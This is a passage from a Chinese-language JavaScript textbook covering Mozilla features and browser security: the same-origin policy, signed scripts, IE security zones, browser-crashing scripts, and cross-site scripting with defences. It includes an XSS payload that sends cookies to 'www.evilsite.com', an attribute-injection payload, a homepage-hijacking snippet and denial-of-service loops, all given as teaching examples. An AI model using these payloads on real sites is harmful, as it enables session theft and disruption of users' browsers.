| 几乎标准模式 | 过渡型 DOCTYPE | 按照 (X)HTML 和 CSS 标准解释页面，但允许一些已弃用的 (X)HTML 标记，并以旧版浏览器的方式渲染页面的某些方面（例如作为表格背景的图片）。 |
| 怪异模式 | 缺少 DOCTYPE | 页面以"传统"方式解释，即它们可能包含已弃用或无效的标记。此外，浏览器会尽其所"修复"损坏的 (X)HTML 和样式，例如将 `<font color="333">` 解释为 `<font color="#333333">`。 |

**注意**：*基于 Mozilla 的浏览器对标准的支持一直在改进，因此请查看 **mozilla.org** 以获取最新信息。*

了解基于 Mozilla 的浏览器支持哪些标准很有帮助，但如果你不了解 Mozilla 在何种情况下应用这些不同技术，可能会得到意想不到的结果。

### 专有浏览器特性

由于 Mozilla 强调对标准的支持，它不像 Internet Explorer 那样拥有大量的专有特性。事实上，真正值得注意的专有特性只有一个：签名脚本。*签名脚本*（signed script）是与 (X)HTML 标记一起打包并经数字签名的 JavaScript，以保证其来源。由于其来源可以得到保证，该脚本能够请求扩展权限，例如修改浏览器设置或读取浏览器历史记录的能力。

我们在第 22 章简要介绍了签名脚本，但该技术的细节超出了本书的范围。如果你是内网开发人员，且目标受众主要使用基于 Mozilla 的浏览器，你应该了解签名脚本的功能和机制，当前信息请访问 [http://www.mozilla.org/projects/security/components/](http://www.mozilla.org/projects/security/components/)（或直接搜索 **mozilla signed scripts**）。

### Mozilla 平台

Mozilla 基金会最引人注目的产品之一是 Mozilla 平台。Mozilla 平台是一个应用程序开发框架，可在您能想象到的大多数操作系统上运行，甚至包括一些您可能想不到的。许多基于 Mozilla 的浏览器（包括 Firefox、Camino 和 Mozilla 本身）都是在 Mozilla 平台上实现的，Thunderbird（Mozilla 基金会的邮件和新闻客户端）等应用程序也是如此。但使用该平台开发的应用程序并不局限于使用 Web 的应用；它非常适合通用的应用程序开发。

Mozilla 平台的架构新颖，旨在使应用程序开发更像 Web 开发。这意味着 Web 开发人员相对容易学习（相对于 Win32 等其他平台），而且像网页一样，修改现有应用程序相对容易。组成 Mozilla 平台的组件列于表 21-17 中。

**表 21-17：Mozilla 平台的组件**

| 应用程序组件 | 使用的技术 | 描述 |
|---|---|---|
| UI 结构 | 一种基于 XML 的标记语言，称为 XUL | XUL 类似于 HTML，但您不用 `<p>` 和 `<h1>` 之类的标签，而是使用 `<menubar><menuitem label="Save as...">` 这样的标记来创建 UI 元素。 |
| UI 呈现 | CSS | 熟悉的 CSS 应用于 XUL 中定义的结构化 UI 元素，赋予它们外观。 |
| UI 内容 | DTD | 以 DTD 形式存在的本地化字符串表可用于将界面的文本内容与界面的结构和呈现完全分离。 |
| UI 逻辑 | JavaScript | JavaScript 用于使用户界面自动化。脚本处理用户界面中的事件，就像它可以处理网页中的事件一样，并且通常会调用应用程序逻辑来完成繁重的工作。 |
| 应用程序逻辑 | 您的选择：JavaScript、C、C++、Perl、Python 等 | 模块化组件执行"真正的"应用程序工作。它们可以调用原生接口或使用 Netscape 可移植运行时库，这是一个用于网络、文件 I/O 等常见任务的跨平台库。请注意，应用程序逻辑可以用 JavaScript 编写，因此您可以轻松实现整个应用程序，而完全不需要借助编译型语言！ |

在此类平台上开发的好处很多，但主要的一点是快速原型设计非常容易，而且修改现有应用程序以满足您的需求更加容易。获得跨平台功能，使您的应用程序除 Windows 外还能在 MacOS、Linux 和其他操作系统上运行，是另一大优势。但也许使用 Mozilla 平台最令人信服的原因是，它通过坚持众所周知的 Web 开发范式，使应用程序开发变得更加容易。

您可以在 mozilla.org 或 Nigel McFarlane 所著的 *Rapid Application Development with Mozilla* 一书中找到有关 Mozilla 平台的更多信息。

### 小结

微软实现了其自己的 JavaScript 版本，称为 JScript。虽然 Internet Explorer 中包含的不同版本的 JScript 在不同程度上对应于 Netscape JavaScript 的版本，但微软已经遵循了许多标准。JScript 3.0 符合 ECMAScript 第 1 版，JScript 5.5 符合 ECMAScript 第 3 版。然而，Microsoft JScript 确实提供了其他浏览器中找不到的几个专有特性。例如，条件编译允许根据平台和 JScript 版本信息选择性地包含或排除代码片段。

除了其专有的文档对象模型之外，Internet Explorer 还配备了其他浏览器中找不到的各种实用功能。数据绑定允许将 SQL 数据库等数据源绑定到 HTML 元素，并使用 JScript 操作数据记录。动态属性扩展了文档对象属性可以设置值的类型，包括动态计算的表达式。HTML 应用程序是在客户端计算机上作为完全受信任的应用程序运行的 HTML 文档，可以访问用户操作系统的全部功能。DHTML 行为是一项强大的技术，允许将特定的 DHTML 功能封装到可重用的 HTML 组件中，这些组件可以通过多种方式绑定到页面中的元素。

尽管 Internet Explorer 提供了丰富的专有特性，但这些特性是否应该用于网站是一个重要的问题。这样做会阻止使用非 Windows 平台或其他浏览器的用户使用您的页面。从可用性的角度来看，为 non-Internet Explorer 客户端提供等效（或至少部分）功能是非常可取的。

虽然 Netscape 4 及更早版本的浏览器也包含各种专有特性，但它们的相关性正在迅速消退。Netscape 6 和 7 标志着与传统浏览器趋势的显著背离。这些浏览器基于 Mozilla 开源项目，该项目继续存在并强调对标准的支持而非专有特性。这种背离有着崇高的目标，即创建标准化的浏览器引擎，使开发人员能够编写一个脚本，而不是为每个浏览器版本和供应商编写众多的条件脚本。虽然这个目标尚未完全实现，但每年都在接近。在此之前，我们必须谨慎地应用特定于每个浏览器的专有特性。


## 第22章：JavaScript 安全性

### 概述

下载并运行由未知方编写的程序是危险的行为。网络上可用的程序可能按其宣传的那样工作，但也可能安装间谍软件、为你的系统开后门、传播病毒，甚至表现出更恶劣的行为，如窃取或删除你的数据。运行可执行程序的决定通常是明确的；你必须下载该程序，并通过确认对话框或双击程序图标来确认你的运行意愿。但大多数人没有意识到，几乎每次加载网页时，他们都在做非常类似的事情：邀请代码——在本例中是 JavaScript——由未知方编写，在自己的计算机上执行。由于每次加载新网页时都必须确认运行 JavaScript 的意愿会极其烦人，因此浏览器实现了一种安全策略，旨在降低此类代码对你构成的风险。

*安全策略*是管理脚本可以做什么以及在什么情况下做的一组规则。例如，浏览器的安全策略禁止从互联网下载的网页中包含的 JavaScript 访问你计算机上的文件，这似乎是合理的。如果它们不这样，你访问的任何网页都可能窃取或破坏你所有的文件！

在本章中，我们将研究浏览器对嵌入网页中的 JavaScript 所强制执行的安全策略。我们将看到，除非代码作者在某种程度上是“可信的”，否则这些策略将 JavaScript 限制在相当良性的一组功能中，尽管“可信”的定义可能因浏览器而异，并且无论如何都是一个有些可疑的概念。

### JavaScript 安全模型

现代 JavaScript 安全模型基于 Java。理论上，下载的脚本默认在受限的“沙箱”环境中运行，该环境将其与操作系统的其他部分隔离开来。脚本仅允许访问当前文档或密切相关文档（通常是与当前文档来自同一站点）中的数据。不允许访问本地文件系统、其他正在运行的程序的内存空间或操作系统的网络层。这种类型的隔离旨在防止故障或恶意脚本在用户环境中造成混乱。然而，现实情况是，脚本通常不像人们希望的那样被很好地约束。脚本可以通过设计或意外的方式，以多种方式行使超出你预期的权限。

浏览器安全模型的基本前提是，没有理由信任随机遇到的代码，例如在网页上发现的代码，因此 JavaScript 应该被当作*敌意*代码来执行。对某些类型的代码有例外，例如来自受信任来源的代码。此类代码被允许扩展功能，有时需要用户同意，但通常不需要明确同意。此外，当页面来自相关域时，脚本可以访问其他浏览器窗口中的特权信息。

#### 同源策略

主要的 JavaScript 安全策略是同源策略。*同源策略*阻止从一个网站加载的脚本获取或设置从不同站点加载的文档的属性。该策略防止来自一个站点的敌意代码“接管”或操纵来自另一个站点的文档。如果没有它，来自敌意站点的 JavaScript 可能会做许多不可取的事情，例如在你登录另一个站点时窥探按键、等待你进入网上银行站点并插入虚假交易、窃取其他域的登录 Cookie 等等。

#### 同源检查

当脚本尝试访问不同窗口中的属性或方法时——例如，使用 **window.open()** 返回的句柄——浏览器会对相关文档的 URL 执行同源检查。如果文档的 URL 通过此检查，则可以访问该属性。如果未通过，则会抛出错误。*同源检查*包括验证目标窗口中文档的 URL 与包含调用脚本的文档具有相同的“源”。如果两个文档是从同一服务器使用相同协议和端口加载的，则它们具有相同的源。例如，从 http://www.example.com/dir/page.html 加载的脚本可以访问从 www.example.com 使用 HTTP 加载的任何对象。表 22-1 显示了尝试访问包含各种 URL 的窗口的结果，假设访问脚本是从 http://www.example.com/dir/page.html 加载的。

| 目标窗口 URL | 与 www.example.com 的同源检查结果 | 原因 |
| --- | --- | --- |
| http://www.example.com/index.html | 通过 | 相同的域和协议 |
| http://www.example.com/other1/other2/index.html | 通过 | 相同的域和协议 |
| http://www.example.com:8080/dir/page.html | 未通过 | 不同的端口 |
| http://www2.example.com/dir/page.html | 未通过 | 不同的服务器 |
| http://otherdomain.com/ | 未通过 | 不同的域 |
| ftp://www.example.com/ | 未通过 | 不同的协议 |

考虑以下示例：

```
var w = window.open("http://www.google.com");

// 现在等待一会儿，希望他们会开始使用新打开的窗口。

// 10 秒后，让我们尝试查看他们正在查看的 URL！

var snoopedURL;

setTimeout("snoopedURL = w.location.href", 10 * 1000);
```

由于同源策略，此脚本只有在从 **www.google.com** 加载时才能工作。如果你从自己的服务器加载它，尝试访问 **Location** 对象将失败，因为你的域与 **www.google.com**（或用户当前访问的任何域）不匹配。如果你将脚本保存到本地磁盘并从那里打开它，尝试访问 **Location** 对象同样会失败，但这次是因为协议不匹配（file:// 与 http://）。Internet Explorer 6 对于此示例会静默失败，但基于 Mozilla 的浏览器的 JavaScript 控制台输出为


有时浏览器根本不会失败，而是“假装”违规调用成功，并在违规尝试获取值时返回 **undefined**。底线是，违反同源策略会导致不可预测的行为。

**嵌入式文档** 当尝试访问另一个 **Window** 对象的属性或方法时，会执行同源检查。由于框架页中的每个框架都有自己的 **Window** 对象，同源策略适用于尝试访问框架内容的脚本。如果两个框架不是使用相同协议从同一站点加载的，脚本则无法跨越框架边界。

该策略还适用于 `<iframe>` 以及 Netscape 4 中的 `<layer>` 和 `<ilayer>`，以及通过 `<object>` 标签包含的文档。

**外部脚本** 外部链接的脚本被视为其嵌入页面的一部分，因此可以从其他域链接。也就是说，同源策略仅在脚本尝试跨越 **Window** 边界时适用；你可以放心地将脚本链接到页面中，即使它从其他站点加载也能正常工作。例如，位于 http://www.somesite.com/index.html 的页面可以包含以下脚本：

```
<script type="text/javascript"

src="http://www.example.com/scripts/somescript.js"></script>
```

此脚本将按预期加载并运行。

请注意，由于链接的脚本被视为其链接到的页面的一部分，如果文件 http://www.example.com/scripts/somescript.js 中的 JavaScript 尝试访问另一个窗口，它将受到其所属文档的同源检查。也就是说，它被视为来自 http://www.somesite.com/index.html，即使脚本本身驻留在其他地方。

#### 同源策略的例外

现代浏览器在几乎所有可用于 JavaScript 的属性和方法上都强制执行同源策略。少数有用的未受保护的方法和属性列在 **表 22-2** 中。这些方法未受保护的事实意味着，即使该窗口中的页面是从不同域加载的，你也可以在另一个窗口中访问它们。如你所见，这些未受保护的方法或属性都不允许操纵页面内容或窥探用户应该担心的那种行为；它们主要是导航性的。

| 方法/属性 | 例外情况 |
|---|---|
| `window.focus()`, `window.blur()`, `window.close()` | 在大多数浏览器中不受同源策略的限制。 |
| `window.location` | 在大多数浏览器中，设置此属性不受同源策略的限制。 |
| `window.open()` | 在 Internet Explorer 中不受同源策略的限制。 |
| `history.forward()`, `history.back()`, `history.go()` | 在 Mozilla 和 Netscape 浏览器中不受同源策略的限制。 |

> **注意** *旧版浏览器通常比现代浏览器对同源策略有更多显著的例外。这有时是出于设计，但更多时候是错误。你可以在 [http://developer.netscape.com/docs/manuals/communicator/jssec/contents.htm](http://developer.netscape.com/docs/manuals/communicator/jssec/contents.htm) 找到关于 Netscape 4.x 旧版浏览器中同源策略实施的信息。*

如果你处理的是从同一域名下不同服务器加载的文档，那么在处理同源策略时有一定的余地。将脚本所在**文档**的**domain**属性设置为一个更通用的域名，可以允许脚本访问该域名而不违反同源策略。例如，从 www.myhost.example.com 加载的文档中的脚本可以将**domain**属性设置为 "myhost.example.com" 或 "example.com"。这样做可以分别使脚本在访问从 "myhost.example.com" 或 "example.com" 加载的窗口时通过来源检查。然而，来自 www.myhost.example.com 的脚本不能将**domain**设置为完全不同的域名，如 google.com 或 moveon.org。

### 同源策略的问题

从用户隐私的角度来看，同源策略非常重要。如果没有它，来自任意域名的活动文档中的脚本不仅可以窥探你访问的 URL，还可以窥探这些网站的 cookie 和你输入的任何表单条目。大多数现代浏览器在执行此策略方面做得很好，但旧版浏览器没有。

除了早期浏览器的执行不力外，同源策略还有另一个问题。考虑一个 Web 服务器通常为无关方托管众多站点。通常，URL 可能看起来像这样：

[http://www.example.com/account/](http://www.example.com/account/)

但是根据同源策略的规则，从以下地址加载的脚本

[http://www.example.com/otheraccount/](http://www.example.com/otheraccount/)

如果 [http://www.domain.com/account](http://www.domain.com/account) 页面存在于可访问的窗口中，将被授予完全访问权限。这种情况可能很少发生，但这是一个严重的缺陷。实际上，很难采取什么措施来防止这个问题。

同源策略的另一个问题是，通常你不能关闭其强制执行。如果你正在为公司内网开发一个基于 Web 的应用程序，并且希望来自不同内部域的应用程序窗口能够协同工作，你可能希望这样做。要绕过 Internet Explorer 中的这个限制，通常必须在浏览器中安装一个自定义的 ActiveX 控件。在 Netscape 和基于 Mozilla 的浏览器中，你可以配置自定义安全策略或使用"签名脚本"，这是我们[下一节](next section)的主题。

> **注意** *Internet Explorer 5 允许位于"受信任"安全区域的站点忽略同源策略。但是，Internet Explorer 6 不提供此功能，因此你不应依赖它。*

### Mozilla 浏览器中的签名脚本

对象签名技术在 Netscape 4 中引入，并继续被现代基于 Mozilla 的浏览器（在一定程度上也被 Internet Explorer）支持。对象签名提供了对活动内容来源的数字保证，例如 Java 小程序和 JavaScript。虽然 Java 和 JavaScript 通常被限制在 Java 沙盒中，但签名对象被允许请求特定的扩展能力，例如访问本地文件系统和完全控制浏览器。其思想是，由于可以验证代码的来源，用户可以授予程序额外的能力，这些能力通常不会提供给在浏览时遇到的来源可疑的代码。

与所有 Web 相关的事物一样，主要的浏览器厂商对同一个想法采取了两种不同且不兼容的方法，并给这些方法起了不同的名称。Netscape 和 Mozilla 将其代码签名技术称为 *对象签名*，而 Microsoft 则将其类似技术称为 *Authenticode*。一个主要区别是 Netscape 和 Mozilla 支持签名的 JavaScript 代码，而 Microsoft 不支持。在 Internet Explorer 中，你只能对 ActiveX 控件进行签名。然而，如上一章所述，Microsoft 的 HTA（超文本应用程序）确实具有增强的功能，并可用于提供类似于签名代码的一组功能，尽管缺乏一些身份保证！

为 Netscape 和 Mozilla 浏览器创建签名脚本涉及获取你的身份作为开发者或组织的数字证书。你可以从与获取用于 HTTPS 的 SSL 证书相同的来源获取此类证书，例如，**www.thawte.com** 或 **www.verisign.com**。

身份证书与*签名工具*结合使用，为你的脚本创建数字签名。签名工具将你的页面及其包含的脚本打包成一个 .jar 文件，然后签署该文件。文件上的签名向任何检查它的人保证，证书的所有者是文件的作者。大概，用户更有可能信任已签名的脚本，因为如果脚本做了恶意的事情，他们可以追踪签名者并追究其法律责任。

当 Netscape 或 Mozilla 浏览器遇到 .jar 文件（即包含已签名脚本的页面）时，它会检查签名，并允许文件中的脚本请求扩展权限。这些权限范围从访问本地文件到设置用户浏览器偏好设置。这个过程的确切机制超出了本书的范围，但网上有大量的信息可供参考。有关 Netscape 4 浏览器中签名脚本的信息，以下是一些良好的起点：

- [http://developer.netscape.com/docs/manuals/communicator/jssec/contents.htm](http://developer.netscape.com/docs/manuals/communicator/jssec/contents.htm)
- [http://developer.netscape.com/viewsource/goodman_sscripts.html](http://developer.netscape.com/viewsource/goodman_sscripts.html)

对于现代基于 Mozilla 的浏览器，良好的起点是：

- [http://www.mozilla.org/projects/security/components/signed-scripts.html](http://www.mozilla.org/projects/security/components/signed-scripts.html)
- [http://www.mozilla.org/projects/security/components/jssec.html](http://www.mozilla.org/projects/security/components/jssec.html)

#### 签名脚本的实际应用

签名脚本主要在内网环境中很有用；它们在广义的 Web 上没那么有用。要了解原因，请考虑即使你可以验证 Web 上签名脚本的来源，仍然没有理由信任创建者。如果你遇到由你公司 IT 部门签名的脚本，你可能可以信任它，风险不大。然而，你没有理由认为一个你不了解的方——例如，网上的一个随机公司——是值得信任的。所以他们签署了他们的 JavaScript——这并不意味着它不会尝试做恶意的事情！如果它真的这么做了，大多数用户将无法得知。

签名脚本的另一个问题是，获取身份证书所需的东西因提供商而异。个人证书有时只需要提交一个有效的电子邮件地址。其他类型的证书需要提交公司注册证明、域名所有权或官方国家和州身份证件。但用户无法轻易知道证书持有人的身份是如何被验证的。可能作者只是提交了他/她的姓名、电子邮件地址和 100 美元。你会允许一个身份如此被"验证"的人控制你的计算机吗？

开发者应该意识到，由于这些原因，一些用户可能不愿意将权限授予签名代码，无论它带有谁的签名。应该采用防御性编程策略来适应这种可能性。

一般来说，最好只在用户对签名者有足够的信息以做出关于可信度的知情决定时才使用签名脚本。实际上，这将签名脚本的有用性限制在你个人认识的用户群体中，例如你的朋友和同事。


### 可配置的安全策略

Internet Explorer 和基于 Mozilla 的浏览器都为用户提供了一些更细粒度的控制，以决定向浏览器可能遇到的不同类型的内容授予哪些功能。如果你正在开发内网应用，了解这些功能会非常有用。通过设置用户浏览器以适应应用程序的需求，你的脚本可以执行一些原本会引发浏览器警告消息或根本无法执行的操作。如果你正在使用可脚本化的 ActiveX 控件，了解这些问题也很重要。它们会影响用户的浏览器在什么条件下运行哪些控件。仔细配置安全策略还可以帮助保护你的浏览器免受 Web 上常见问题的影响。

#### Mozilla 安全策略

Mozilla 可能拥有所有流行浏览器中最先进的可配置安全设置。你可以创建一个命名策略，并将该策略应用于特定的网站列表。例如，你可以创建一个名为"Intranet"的策略，并将其应用于从公司内网 [http://it.corp.mycompany.com](http://it.corp.mycompany.com) 获取的页面。另一个策略可以命名为"Trusted Sites"，包含一组你愿意授予某些扩展权限的网站列表。默认策略适用于不属于任何其他策略组的所有网站。

对于每个策略，你可以细粒度地控制其适用网站可以执行的操作。这些*功能*涵盖从读写 DOM 的特定部分，到通过 **window.open()** 打开窗口，再到设置其他浏览器首选项（如主页）等。例如，你可以让你的"Intranet"策略适用的网站完全控制你的浏览器，前提是假设从本地内网获取的文档会利用这些权限来提升可用性而非用于恶意目的。你的"Trusted Sites"策略可能允许你收藏的网站打开新的浏览器窗口、读写 Cookie 以及运行 Java 小程序。你可能会将默认策略设置为禁止其余网站打开新窗口（因为弹出窗口很烦人）、运行 Java，以及调整窗口大小和位置。

在撰写本文时，Mozilla 安全策略配置过程的主要缺点是你必须手动创建策略和规则。没有用于按站点或按组管理这些首选项的 GUI 界面。不过有趣的是，你可以非常轻松地创建一个全局 JavaScript 策略，如图 22-1 所示。


图 22-1：设置 Mozilla 的全局 JavaScript 首选项

要创建和配置更具体的站点级策略，你必须打开并编辑 prefs.js 文件，该文件通常位于操作系统中程序的特定应用程序数据区域。在 Windows 上，这可能位于 **C:\Documents and Settings\username\Application Data\Mozilla\Profiles\default** 下。找到首选项文件的最佳方式是搜索它，但请注意该文件在 Windows 上默认是"隐藏"的，因此你可能需要启用文件搜索器的"搜索隐藏目录和文件"选项才能找到它。有关 Mozilla 可配置安全策略的更多信息，包括 prefs.js 文件的语法，可以在以下 URL 中找到：

- http://www.mozilla.org/catalog/end-user/customizing/briefprefs.html
- http://www.mozilla.org/projects/security/components/ConfigPolicy.html

### Internet Explorer 中的安全区域

Internet Explorer 4 及更高版本支持类似的可配置安全策略来管理不同网站，但允许的控制程度不如 Mozilla。网站被分为五组之一（在 IE 中称为区域）：

- **本地 Intranet** 从本地服务器获取的页面，通常位于公司防火墙内部。
- **受信任的站点** 你愿意授予扩展功能的网站。
- **Internet** 所有从 Web 获取的页面的默认区域。
- **受限站点** 你特别标记为不可信的网站。
- **本地计算机** 从硬盘加载的页面。此区域是隐式的，意味着你无法手动配置它。从磁盘加载的内容始终以扩展权限运行。

你可以通过在 Internet Explorer 中选择"工具 | Internet 选项"并选择"安全"选项卡来管理哪些网站出现在哪个区域中。点击图 22-2 所示的"站点"按钮来向每个区域添加或移除网站。


**图 22-2：** 在 Internet Explorer 中将网站分类到安全区域

每个区域都有一个关联的安全策略，用于管理落入该区域的网站可以执行的操作。Internet Explorer 为每个区域提供了默认安全设置，但也允许用户自定义设置。默认设置称为*模板*，按安全级别从低到高（即从最不安全到最偏执）分别称为低、中低、中和高。你可以从图 22-3 中看到，Internet Explorer 6 中受信任站点区域的默认设置为低。


图 22-3：大多数安全区域都有一个默认安全模板。

点击每个安全区域的"自定义级别"按钮（如图 22-3 所示）可以让你配置该区域网站拥有的特定功能。图 22-4 展示了这些选项的示例。虽然完整讨论每个选项超出了本书的范围，但了解适用于可脚本化 ActiveX 控件的选项会很有用。有关 IE 安全区域的更完整介绍，请参见 [http://msdn.microsoft.com/library/default.asp?url=/workshop/security/szone/overview/overview.asp](http://msdn.microsoft.com/library/default.asp?url=/workshop/security/szone/overview/overview.asp)。


### ActiveX 控件

影响 Internet Explorer 中 ActiveX 控件的主要策略项见表 22-3。标记为"询问"的条目表示系统会提示用户是否允许执行相关操作。

表 22-3：Internet Explorer 安全区域的相关安全属性

| 模板 | 默认适用于 | 运行 ActiveX | 安装已签名的 ActiveX | 安装未签名的 ActiveX | Java 小程序可脚本化？ | 安全 ActiveX 控件可脚本化？ |
| :--- | :--- | :--- | :--- | :--- | :--- |


### 浏览器安全问题与JavaScript

JavaScript有着漫长而不光彩的历史，充满了糟糕的安全漏洞。不信？打开你最喜欢的浏览器，访问你常用的搜索引擎，搜索"JavaScript漏洞"——你会发现数以万计的结果。当然，这并不能精确反映浏览器中安全漏洞的确切数量，但确实能大致说明问题的严重程度。这些漏洞的范围从相对无害的疏忽，到允许访问本地文件、Cookie或网络功能的严重漏洞。

但JavaScript的安全问题并不仅限于实现错误。脚本有多种方式可以在不违反任何安全策略的情况下影响用户的执行环境。

### 用JavaScript"轰炸"浏览器

浏览器在客户端机器上被授予的资源量，在很大程度上取决于其操作系统。不幸的是，许多操作系统（包括Windows 95和98）会继续分配CPU周期和内存，超出应用程序可能合理的范围。无论有意还是无意，编写会导致浏览器崩溃的JavaScript都非常容易。

接下来几节的内容旨在说明浏览器在面对拒绝服务攻击时的一些主要问题，这里的"服务"指的是访问行为正常的操作系统。结果会因平台而异，但运行其中任何一个脚本都不仅可能导致浏览器崩溃，还可能使你的操作系统本身崩溃。

#### 无限循环

迄今为止，最简单（也最明显）的导致不良副作用的方法是进入无限循环，即退出条件永远无法满足的循环。一些现代浏览器会捕获并停止执行最明显的无限循环，但它们很少会阻止类似这样的循环：

```javascript
function tag() {
    you_are_it();
}

function you_are_it() {
    tag();
}

tag();
```

无限循环可能以多种方式产生，但一旦开始往往就无法停止。虽然大多数无限循环通过重复执行相同工作来消耗CPU周期，但有些循环，像前面那个，对内存有着巨大的消耗。

#### 内存吞噬者

导致浏览器崩溃的最简单方法之一是耗尽所有可用内存。例如，臭名昭著的倍增字符串会呈指数级增长，在几秒钟内就能使许多浏览器崩溃：

```javascript
var adiosAmigo = "Sayanora, sucker.";
while (true)
    adiosAmigo += adiosAmigo;
```

你也可以填满操作系统用于跟踪递归函数调用的可用内存。在许多系统上，调用以下代码将导致"栈溢出"或类似的恐慌状态：

```javascript
function recurse() {
    var x = 1;
    // you can fill up extra space with data which must be pushed
    // on the stack but mostly we just want to call the function
    // recursively
    recurse();
}
```

你甚至可以尝试编写自我复制的代码来耗尽浏览器内存，只需在文档的`<head>`中放置以下代码：

```javascript
function doitagain() {
    document.write("<scrip" + "t>doitagain()<</scrip" + "t>");
}
doitagain();
```

### 使用浏览器功能

一个流行的变体是脚本编写引用自身的`<frameset>`元素，从而创建无限递归的文档获取。这会阻止任何用户操作，因为浏览器忙于获取页面而无法处理用户界面事件。

同样，你可以打开无尽的对话框系列：

```javascript
function askmeagain() {
    alert("Ouch!");
    askmeagain();
}
```

或者持续调用**window.open()**，直到客户端资源耗尽。

### 欺骗性行为

开发者可以轻松地让浏览器崩溃，这只是冰山一角。通常，会采用欺骗性编程策略来以某种方式欺骗或骚扰用户。最常见的方法之一是创建一个小型、最小化的窗口，并立即将原始窗口置于**focus()**，从而将次级窗口发送到后台。然后，次级窗口设置一个间隔定时器，定期生成弹出广告。次级窗口配备了一个事件处理器，当它获得焦点时会**blur()**它，以及一个**onunload**处理器，以防用户真的关闭它时重新生成它。

在第21章中，我们简要讨论了Internet Explorer 5+中的一项技术，称为DHTML行为。行为具有非常强大的功能，包括修改浏览器设置的能力。DHTML行为欺骗性使用的最简单示例是试图诱骗用户更改其浏览器的默认主页：

```html
<a onclick="this.style.behavior='url(#default#homepage)';
this.setHomePage ('http://www.example.com')" href="">
Click here to see our list of products!
</a>
```

网站经常会弹出伪装成操作系统警报的窗口或对话框。当被点击或提供数据时，它们会表现出各种行为，从启动恶意ActiveX控件的下载到窃取密码。通常，这些窗口是在没有浏览器外观（chrome）的情况下创建的，并且如果创建得巧妙，几乎与真正的Windows对话框无法区分。一些研究人员已经展示了如何利用无外观窗口进行更巧妙的攻击。一个精心创建的窗口可以被定位为完全覆盖浏览器的地址栏，使用户误以为他们实际上正在访问一个不同的网站。另一个演示展示了如何将一个包含IE挂锁图标的小窗口放置在浏览器状态栏上，使其看起来好像用户正在安全地访问该网站。重大威胁还来自那些已经找到创建无法关闭的窗口，或出现在屏幕外不被注意到的窗口的方法的开发者。当与禁用页面的上下文菜单、漏洞嗅探程序和弹出广告生成器相结合时，这样的窗口可能极其危险，更不用说难以置信地烦人。变体包括让窗口试图模仿用户的桌面并始终保持在最上层，用横幅广告拼布覆盖所有可用空间平铺桌面，或者通过从屏幕外或隐藏窗口神秘地创建更多窗口来烦扰毫无戒心用户的"繁殖窗口"游戏。

### 跨站脚本攻击

并非所有与JavaScript相关的安全问题都是浏览器的错。有时Web应用程序的创建者才是罪魁祸首。考虑一个接受表单输入中的用户名，然后在页面中显示它的网站。输入名称"Fred"并单击提交可能导致加载URL，如`http://www.example.com/mycgi?username=Fred`，并在结果页面中出现以下HTML片段：

```html
Hello, <b>Fred</b>!
```

但如果有人能让你点击一个链接到`http://www.example.com/mycgi?username=Fred<script>alert('Uh oh');</script>`会发生什么？CGI可能会将以下HTML写入结果页面：

```html
Hello, <b>Fred<script>alert('Uh oh');</script></b>
```

通过**username** URL参数传入的脚本被直接写入页面，其JavaScript按常规执行。

这种极其不良的行为被称为*跨站脚本攻击*（通常称为XSS）。它允许攻击者创建的JavaScript被"注入"到你网站的页面中。前面的例子相对无害，但URL很容易包含更具恶意的脚本。例如，考虑以下URL：

```
http://www.example.com/mycgi?username=Fritz%3Cscript%3E%0A%28new%20Image%29.src%3D%27http%3A//www.evilsite.com/%3Fstolencookie%3D%27+escape%28document.cookie%29%3B%0A%3C/script%3E
```

首先，请注意，潜在的有害字符，如`<`、`;`和`?`已被URL编码，以免混淆浏览器。现在考虑将被写入页面的HTML：

```html
Hello, <b>Fritz <script>
(new Image).src='http://www.evilsite.com/?stolencookie='+
escape(document.cookie);
</script></b>
```

此脚本导致浏览器尝试从`www.evilsite.com`加载图像，并在URL中包含用户当前站点（`www.example.com`）的任何Cookie。此图像不存在的事实并不重要；反正用户看不到它。重要的是要注意，攻击者推测运行着`www.evilsite.com`，现在只需查看他的日志即可找到从毫无戒心的用户那里窃取的Cookie。由于大多数网站将登录信息存储在Cookie中，这可能使攻击者能够以受害者身份登录。

跨站脚本攻击不仅限于窃取Cookie。同源策略阻止的任何不良行为都可能发生。例如，脚本同样可以窥探用户的按键并将其发送到`www.evilsite.com`。同源策略在这里不适用：浏览器无法知道`www.example.com`并非有意让该脚本出现在页面中。

### 防止跨站脚本攻击

你应该采用双管齐下的方法来防止跨站脚本攻击。第一个原则是始终在服务器端（即在你的CGI、PHP等中）积极验证用户输入。你应该根据已知为"良好"的正则表达式检查提交的表单值（或使用等效逻辑进行判断）。这与检查值是否包含不良字符相反，我们将后者称为"负面"验证。例如，如果用户名应该是字母数字字符，请确保输入匹配如`^[a-zA-Z0-9]+$`的正则表达式，而不是查找可能有问题的非字母数字字符。积极匹配优于消极匹配，因为不会有机会因忘记搜索某个特定"坏"字符而犯错。

第二种方法是在将数据写入网页之前对其进行 *HTML 转义*。HTML 转义会将具有特殊含义的 HTML 字符（如 < 和 >）替换为对应的实体，在本例中即为 **&lt;** 和 **&gt;**。这样做可以确保即使恶意输入绕过了你的输入验证代码，在写入页面时也会被渲染为无害的内容。

需要注意的是，数据必须经过怎样的转义才能安全输出（称为 *输出净化*）取决于数据如何被写入页面。例如，如果用户传入一个要写入 <*iframe*> 的 URL：

```
<iframe src="VALUEGOESHERE"> </iframe>
```

攻击者可以传入 **http://somelegitsite.com"%20onload="evilJSFunction()"** 作为 URL（%20 是空格）。这将被解码并插入页面，结果如下：

```
<iframe src="http://somelegitsite.com" onload="evilJSFunction()"> </iframe>
```

仅仅转义 < 和 > 是不够的；你还需要了解输出的上下文。转义 &、<、>、括号以及单双引号通常是最好的策略。

输出净化可能很棘手，需要深入掌握 HTML、CSS、JavaScript 和专有的浏览器技术才能有效实施。有兴趣进一步了解跨站脚本攻击和 Web 应用程序安全的读者，可以阅读开放 Web 应用程序安全项目（OWASP）指南，目前可在 **http://www.owasp.org/documentation/guide** 找到。

### 小结

JavaScript 的安全模型基于沙箱方法，脚本在受限的执行环境中运行，无法访问本地文件系统、用户数据或网络功能。*同源策略* 阻止一个站点的脚本读取从不同位置加载的窗口的属性。*签名脚本策略* 允许经过数字签名的移动代码向用户请求特殊权限。这项技术保证了代码的真实性和完整性，但无法保证其功能或不存在恶意行为。两种主流浏览器都支持使用签名代码，但遗憾的是 Internet Explorer 不支持签名 JavaScript。然而，即使实现得再完美，许多用户出于正当的安全顾虑也会拒绝授予签名脚本权限。因此，如果使用签名脚本，应始终采取防御性编程方式以适应这种情况，并且签名脚本可能最适合用于内网环境。

